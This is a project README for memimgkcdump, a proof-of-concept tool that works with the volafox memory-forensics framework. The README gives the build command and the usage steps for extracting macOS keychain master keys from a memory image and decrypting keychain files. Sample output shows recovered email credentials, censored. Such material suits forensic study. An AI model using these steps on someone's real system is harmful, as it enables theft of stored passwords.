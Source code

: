 # memimgkcdump

I forked this project in order to make use of the output to [volafox project](http://code.google.com/p/volafox)

memimgkcdump is a proof-of-concept tool for 'keychaindump' function on volafox. output of volafox, keychain master keys, uses them to decrypt keychain files.

Main writer's article(keychaindump) see the [blog post](http://juusosalonen.com/post/30923743427/breaking-into-the-os-x-keychain).

## How?
Build instructions:

    $ gcc memimgkcdump.c -o memimgkcdump -lcrypto

Basic usage:
    $ python vol.py -i [memory image] -o keychaindump
    ....
    [*] master key candidate: 9AB40E7378E195335019C5A3577123D5AC814C7D22588B2F
    
    $ ./memimgkcdump [master key candidate] [path to keychain file]

Example with truncated and censored output:

    $ python vol.py -i [memory image] -o keychaindump

	[+] Virtual Memory Map Information
	 [-] Virtual Address Start Point: 0x1099e1000
	 [-] Virtual Address End Point: 0x7fffffe00000
	 [-] Number of Entries: 92
	
	[+] Generating Process Virtual Memory Maps
	 [-] Region from 0x1099e1000 to 0x109aea000 (r-x, max rwx;)
	 [-] Region from 0x109aea000 to 0x109af7000 (rw-, max rwx;)
	 ...
	 [-] Region from 0x10a072000 to 0x10a073000 (---, max rwx;)
	 [-] Region from 0x10a073000 to 0x10a0ce000 (rw-, max rwx;)
	 [-] Region from 0x10a0ce000 to 0x10b2f3000 (r--, max r-x;)
	 [-] Region from 0x7fedc9c00000 to 0x7fedc9d00000 (rw-, max rwx;)
	 [-] Region from 0x7fedc9d00000 to 0x7fedc9e00000 (rw-, max rwx;)
	 [-] Region from 0x7fedc9e00000 to 0x7fedc9f00000 (rw-, max rwx;)
	 [-] Region from 0x7fedca000000 to 0x7fedca0e5000 (rw-, max rwx;)
	 [-] Region from 0x7fedca0e5000 to 0x7fedca0e7000 (rw-, max rwx;)
	 [-] Region from 0x7fedca0e7000 to 0x7fedca0f8000 (rw-, max rwx;)
	 [-] Region from 0x7fedca0f8000 to 0x7fedca0fa000 (rw-, max rwx;)
	 [-] Region from 0x7fedca0fa000 to 0x7fedca800000 (rw-, max rwx;)
	 ...
	 [-] Region from 0x7fff7a000000 to 0x7fff7a200000 (rw-, max rwx;)
	 [-] Region from 0x7fff7a200000 to 0x7fff7a26e000 (rw-, max rwx;)
	 [-] Region from 0x7fff7a26e000 to 0x7fff80000000 (r--, max rwx;)
	 [-] Region from 0x7fff80000000 to 0x7fffc0000000 (r--, max rwx;)
	 [-] Region from 0x7fffc0000000 to 0x7fffffe00000 (r--, max rwx;)
	 [-] Region from 0x7fffffe00000 to 0x7fffffe01000 (r--, max r--;)
	 [-] Region from 0x7ffffffca000 to 0x7ffffffcb000 (r-x, max r-x;)
	
	[+] Find MALLOC_TINY heap range (guess)
	 [-] range 0x7fedc9c00000-0x7fedc9d00000
	 [-] range 0x7fedc9d00000-0x7fedc9e00000
	 [-] range 0x7fedc9e00000-0x7fedc9f00000
	 [-] range 0x7fedcb000000-0x7fedcb100000
	 [-] range 0x7fedcb100000-0x7fedcb200000
	 [-] range 0x7fedcb200000-0x7fedcb300000
	
	[*] Search for keys in range 0x7fedc9c00000-0x7fedc9d00000 complete. master key candidates : 4
	[*] Search for keys in range 0x7fedc9d00000-0x7fedc9e00000 complete. master key candidates : 4
	[*] Search for keys in range 0x7fedc9e00000-0x7fedc9f00000 complete. master key candidates : 4
	[*] Search for keys in range 0x7fedcb000000-0x7fedcb100000 complete. master key candidates : 5
	[*] Search for keys in range 0x7fedcb100000-0x7fedcb200000 complete. master key candidates : 5
	[*] Search for keys in range 0x7fedcb200000-0x7fedcb300000 complete. master key candidates : 5
	
	[*] master key candidate: ACEFBB5CECE8398E780016DAF685E39A8E36FDE8EC8B6B6E
	[*] master key candidate: C7A8DC12E05F1BEEF70228C304E6567CFDA07BEAB86606C7
	[*] master key candidate: E340E90C2EC1E55BC116A2775624FC3D4ADD35E248E543C1
	[*] master key candidate: 9AB40E7378E195335019C5A3577123D5AC814C7D22588B2F
	[*] master key candidate: 9AB40E7378E195335019C5A3577123D5AC814C7D22588B2F

    $ sudo ./memimgkcdump E340E90C2EC1E55BC116A2775624FC3D4ADD35E248E543C1 login.keychain
    [*] Trying to decrypt wrapping key in login.keychain
	[*] Trying master key candidate: E340E90C2EC1E55BC116A2775624FC3D4ADD35E248E543C1
	[+] Found master key: E340E90C2EC1E55BC116A2775624FC3D4ADD35E248E543C1
	[+] Found wrapping key: 9ab40e7378e195335019c5a3577123d5ac814c7d22588b2f
	xxxxx@live.com:pop3.live.com:xxxxx
	xxxxxx@live.com:smtp.live.com:xxxxxxx
    ...

## Who?
Keychaindump was modified by [n0fate](http://twitter.com/n0fate)

and

Keychaindump was written by [Juuso Salonen](http://twitter.com/juusosalonen), the guy behind [Radio Silence](http://radiosilenceapp.com) and [Private Eye](http://radiosilenceapp.com/private-eye).

## License
Do whatever you wish. Please don't be evil.